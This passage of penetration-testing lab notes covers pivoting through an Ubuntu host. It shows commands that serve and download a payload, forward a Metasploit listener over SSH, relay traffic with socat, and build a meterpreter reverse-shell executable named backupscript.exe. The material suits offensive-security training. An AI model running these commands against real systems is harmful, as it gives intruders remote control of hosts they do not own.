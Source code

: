 After copying the payload, we will start a python3 HTTP server using the below command on the Ubuntu server in the same directory where we copied our payload.

```
python3 -m http.server 8123
```

We can download this backupscript.exe from the Windows host via a web browser or the PowerShell cmdlet Invoke-WebRequest.
```
Invoke-WebRequest -Uri "http://<ip>:<port>/backupscript.exe" -OutFile "C:\backupscript.exe"
```


Once we have our payload downloaded on the Windows host, we will use SSH remote port forwarding to forward our msfconsole's listener service on port 8000 to the Ubuntu server's port 8080. We will use -vN argument in our SSH command to make it verbose and ask it not to prompt the login shell. The -R command asks the Ubuntu server to listen on <targetIPaddress>:8080 and forward all incoming connections on port 8080 to our msfconsole listener on 0.0.0.0:8000 of our attack host.

```
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

## Socat Redirection with a Reverse Shell 

Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start socat on the Ubuntu server.

Starting Socat Listener

```
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Creating the Windows Payload

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```


Socat will listen on localhost on port 8080 and forward all the traffic to port 80 on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.


## Socat Redirection with a Bind Shell

Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. 
